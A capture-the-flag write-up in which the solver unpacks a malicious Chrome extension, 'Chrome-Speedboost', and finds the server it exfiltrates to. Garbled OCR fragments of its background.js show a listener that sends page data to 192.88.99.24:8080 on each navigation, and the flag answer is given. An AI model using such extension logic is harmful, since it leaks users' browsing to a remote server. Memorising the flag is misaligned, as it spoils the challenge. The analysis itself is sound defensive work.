 # Chrome-Plated Nonsense - 1
> Jubilife’s security operations center (SOC) team is looking into anomalous traffic from an employee’s Windows machine. When asked if they had recently seen anything odd or made any changes to their machine, the employee admitted to installing two new Chrome extensions.

> Jubilife would like you to review these Chrome extensions and determine whether they are causing the anomalous traffic and what, if any, malicious behavior they perform.

> The first extension is named Chrome-Speedboost (see attached crx file). The employee installed this extension to speed up their web browsing, but based on traffic the Jubilife SOC team has seen, they believe this extension is exfiltrating information.

> What are the IP address and port of the server the malicious extension is sending the exfiltrated data to?

> Flag format: IP address and port. Example: if the IP is 8.8.8.8 and the port is 53, the flag would be 8.8.8.8:53

## About the Challenge
We were given a `crx` file (You can download the extension [here](chrome-speedboost.crx)) and we need to find the IP address and port of the server

## How to Solve?
We need to unzip the chrome extension first and as you can see there is a file called `background.js`


[Image extracted text: root@LAPTOP-F9L3RGSH:-
/Chrome# unzip chrome-speedboost
crx
Archive:
chrome-speedboost
crx
warning [chrome-speedboost
crx]
593
extra bytes
at beginning
or
within zipfile
(attempting to
process
anyway
inflating
background. js
extracting
Logo_128. png
extracting
logo_32
png
extracting
logo_16 .png
inflating
manifest
json
extracting
Logo_48 . png]


If we open the file we will get the ip and the port of the server


[Image extracted text: root@LAPTOP-FIL3RGSH:~/Chrome# cat background. js
var
uniqueId;
var
destination
1/192.88 . 99.24:8080/"
1/
This will execute when navigation
to
page
is
com;
chrome.webNavigation.onCompleted.addListener((details_
var
ur
details.url
var opts
{
method
GET
"http:]


```
192.88.99.24:8080
```